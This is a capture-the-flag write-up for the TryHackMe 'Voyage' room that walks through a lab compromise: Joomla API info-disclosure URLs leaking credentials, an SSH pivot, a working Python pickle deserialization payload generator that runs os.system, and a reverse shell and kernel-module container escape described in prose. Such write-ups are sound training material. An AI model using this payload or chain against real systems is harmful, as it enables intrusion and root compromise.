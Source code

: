 # Voyage

https://tryhackme.com/r/voyage

A medium rated room, but quite involved. Took me a few hours.

1. Scans reveal 22, 80 and 2222, with the first and last both being ssh ports obviously
2. On 80 is a joomla site, specifically version 4.2.x, which can be discovered easily via nikto, nmap returns, and reading the README.txt file
3. This version has a info disclosure vuln, at these addresses:
  - http://10.201.107.142/api/index.php/v1/config/application?public=true
  - http://10.201.107.142/api/index.php/v1/users?public=true
  This reveals a set of credentials, which sadly do not work on the site.
4. They *do* work on port 2222 though, gaining root access to a container over ssh
5. The bash history file for root contains a list of the installed apps, including fully functional nmap, which allows us to do network enum
6. On a 192.168.100.12 machine, port 5000 is open and curling it reveals a website
7. I set up a proxy so this site was accessible from my attach box, via `ssh -p 2222 -L 0.0.0.0:5000:192.168.100.12:5000 root@10.201.107.142`
8. The website is a 'secret finance portal', and can be logged in with the same set of credentials as earler.
9. The site itself, and the finance panel, have no interesting functionality. However the cookie is a hex value that can be parsed to reveal some plaintext along with plenty of garbage.
10. Given the site is running using werkzeug and python3, and the first bunch of bytes in the cookie, this all leads to pickle serialization. The following script successfully decodes the cookie:

  ```python
  import pickle

  cookie = "8004952b00000000....."
  
  pickle_bytes = bytes.fromhex(cookie)
  data = pickle.loads(pickle_bytes)
  print(data)
  ```

11. To test for unsafe deserialization, I used this script to generate payloads:

  ```python
  import pickle
  import base64
  import os
  import sys
  
  class RCE:
      def __reduce__(self):
          cmd = (sys.argv[1])
          return os.system, (cmd,)
  
  if __name__ == '__main__':
      pickled = pickle.dumps(RCE())
      print(pickled.hex())
  ```
  After trying curl, I got a call back, and then used a python3 rev shell to get a connection.

12. On the second docker container there are a bunch of kernel module files under /root, and evidence of kernel module installation in the bash history. linpeas showed that the root user had the `CAP_SYS_MODULE` capalbility.
13. As the kernel accessible from the docker container is the same kernel as what is running on the host, this allows an escape by creating a malicious module. I followed the instructions on hacktricks for this to get a root shell on the host: https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module
  
One minor wrinkle was that the makefile tries to find the module build tools incorrectly - you need to sub out the uname -a stuff with the actual available paths under /lib/modules
